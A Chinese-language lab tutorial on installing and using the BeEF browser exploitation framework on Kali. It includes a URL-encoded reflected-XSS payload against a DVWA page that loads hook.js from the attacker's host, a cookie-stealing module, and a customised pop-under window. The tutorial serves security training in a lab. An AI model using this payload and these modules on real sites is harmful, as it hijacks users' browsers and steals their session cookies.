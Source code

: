 浏览器利用框架项目

![过程](./../../../images/BeEF/%E8%BF%87%E7%A8%8B.png)

## 1 安装

安装 Beef-XSS

```
┌──(root㉿Kali-24)-[~]
└─# apt update
┌──(root㉿Kali-24)-[~]
└─# apt install -y beef-xss
```

初始化 Beef-XSS

```
┌──(root㉿Kali-24)-[~]
└─# beef-xss
```

设置密码

```
[-] Please type a new password for the beef user: 
```

> 用户名    beef
> 
> 密码        beef-xss

在配置文件中查看密码

```
┌──(root㉿Kali-24)-[~]
└─# vim /etc/beef-xss/config.yaml
```

```
pass: beef
passwd: beef-xss
```

查看地址

```
[*]  Web UI: http://127.0.0.1:3000/ui/panel                                “控制台地址”
[*]    Hook: <script src="http://<IP>:3000/hook.js"></script>            “劫持地址”
[*] Example: <script src="http://127.0.0.1:3000/hook.js"></script>        “模板地址"
```

查看主目录

```
┌──(root㉿Kali-24)-[~]
└─# ls /usr/share/beef-xss
```

浏览器访问

> http://192.168.1.24:3000/ui/panel
> 
> 查看控制台

浏览器访问

> http://192.168.1.24:3000/hook.js
> 
> 查看模板

## 2 劫持用户浏览器

利用提供的 hook.js 构造 payload 构造在目标 URL 中

当用户访问目标 URL ，即可劫持成功

实战

> [XSS 跨站脚本攻击.md](..\..\XSS 跨站脚本攻击\XSS 跨站脚本攻击.md)
> 
> 反射型 XSS 攻击劫持用户浏览器

浏览器访问

> http://192.168.1.76/DVWA/vulnerabilities/xss_r/?name=%3c%73%63%72%69%70%74%20%73%72%63%3d%22%68%74%74%70%3a%2f%2f%31%39%32%2e%31%36%38%2e%31%2e%32%34%3a%33%30%30%30%2f%68%6f%6f%6b%2e%6a%73%22%3e%3c%2f%73%63%72%69%70%74%3e
> 
> 劫持浏览器

## 3 beef 模块的使用

查看模块

![查看模块](./../../../images/BeEF/%E6%9F%A5%E7%9C%8B%E6%A8%A1%E5%9D%97.png)

颜色分类

![](./../../../images/BeEF/%E9%A2%9C%E8%89%B2%E5%88%86%E7%B1%BB.png)

| 操作   | 描述                        |
| ---- | ------------------------- |
| 绿色模块 | 表示模块适合目标浏览器，并且执行结果对客户端不可见 |
| 红色模块 | 表示模块不适用于当前用户，有些红色模块也可正常执行 |
| 橙色模块 | 模块可用，但结果对用户可见(CAM弹窗申请权限等) |
| 灰色模块 | 模块未在目标浏览器上测试过             |

### 3.1 获取 Cookie

执行 Get Cookie 模块

![执行 Get Cookie 模块](./../../../images/BeEF/%E6%89%A7%E8%A1%8C%20Get%20Cookie%20%E6%A8%A1%E5%9D%97.png)

查看获取到的 Cookie

![查看获取到的 Cookie](./../../../images/BeEF/%E6%9F%A5%E7%9C%8B%E8%8E%B7%E5%8F%96%E5%88%B0%E7%9A%84%20Cookie.png)

### 3.2 弹窗

执行 Create Pop Under 模块

![执行 Create Pop Under 模块](./../../../images/BeEF/%E6%89%A7%E8%A1%8C%20Create%20Pop%20Under%20%E6%A8%A1%E5%9D%97.png)

弹出窗口

![弹出窗口](./../../../images/BeEF/%E5%BC%B9%E5%87%BA%E7%AA%97%E5%8F%A3.png)

> 弹窗默认没有任何内容显示，可编辑弹窗文件，增加图片

切换到弹窗模块所在目录

```
┌──(root㉿Kali-24)-[~]
└─# cd /usr/share/beef-xss/modules/
```

```
┌──(root㉿Kali-24)-[/usr/share/beef-xss/modules]
└─# ls                    
browser  chrome_extensions  debug  exploits  host  ipec  metasploit  misc  network  persistence  phonegap  social_engineering
```

根据路径找到弹窗模块

```
┌──(root㉿Kali-24)-[/usr/share/beef-xss/modules]
└─# cd /usr/share/beef-xss/modules/persistence/popunder_window
```

```
┌──(root㉿Kali-24)-[/usr/…/beef-xss/modules/persistence/popunder_window]
└─# ls
command.js  config.yaml  module.rb
```

编辑配置文件

```
┌──(root㉿Kali-24)-[/usr/…/beef-xss/modules/persistence/popunder_window]
└─# vim command.js
```

修改

```
window.open(popunder_url,popunder_name,'toolbar=0,location=0,directories=0,status=0,menubar=0,scrollbars=0,resizable=0,width=1,height=1,left='+screen.width+',top='+screen.height+'').blur();
```

```
window.open(popunder_url,popunder_name,'toolbar=0,location=0,directories=0,status=0,menubar=0,scrollbars=0,resizable=0,width=550,height=320,left='+(screen.width/2-500)+',top='+(screen.height/2-200)+'').blur();
```

| 操作         | 描述                                                           |
| ---------- | ------------------------------------------------------------ |
| width=515  | 弹窗宽度 515 像素                                                  |
| height=320 | 弹窗高度 320 像素                                                  |
| left       | 弹窗距离浏览器左边的距离设置为 (screen.width/2-500)，其中 screen.width 为屏幕的宽度  |
| top        | 弹窗距离浏览器顶端的距离为 (screen.height/2-200) ，其中 screen.height 为屏幕的高度 |

> plain.html 是弹窗调用的 html 页面
> width=1 和 height=1 是控制弹窗的大小，left 和 top 是控制弹窗在屏幕上显示的位

切换到弹窗页面所在目录

```
┌──(root㉿Kali-24)-[/usr/…/beef-xss/modules/persistence/popunder_window]
└─# cd /usr/share/beef-xss/extensions/demos/html
```

```
┌──(root㉿Kali-24)-[/usr/…/beef-xss/extensions/demos/html]
└─# ls
adobe_flash_update.crx  ajax-loader.gif  beef.jpg  clickjacking  report.html       sound.wav
adobe_flash_update.png  basic.html       butcher   plain.html    secret_page.html
```

> plain.html 即是弹窗所调用的 html 文件

上传图片    `demo.jpg`    到以上目录

编辑 plain.html 文件

```
┌──(root㉿Kali-24)-[/usr/…/beef-xss/extensions/demos/html]
└─# vim plain.html
```

在 `<body> </body>` 中间插入如下代码

```
<a href="http://www.qq.com" target="_blank" ><img src="/demos/demo.jpg" width="500"></a>
```

| 操作              | 描述                |
| --------------- | ----------------- |
| a               | 链接标签              |
| href            | 指定点击后跳转到哪个链接地址    |
| target="_blank" | 指定点击广告图片后单独弹出一个页面 |

在浏览器上再次执行弹窗模块

![在浏览器上再次执行弹窗模块](./../../../images/BeEF/%E5%9C%A8%E6%B5%8F%E8%A7%88%E5%99%A8%E4%B8%8A%E5%86%8D%E6%AC%A1%E6%89%A7%E8%A1%8C%E5%BC%B9%E7%AA%97%E6%A8%A1%E5%9D%97.png)

点击图片

![点击图片](./../../../images/BeEF/%E7%82%B9%E5%87%BB%E5%9B%BE%E7%89%87.png)

> 跳转到了 www.qq.com

---

References

- [BeEF](https://beefproject.com/)
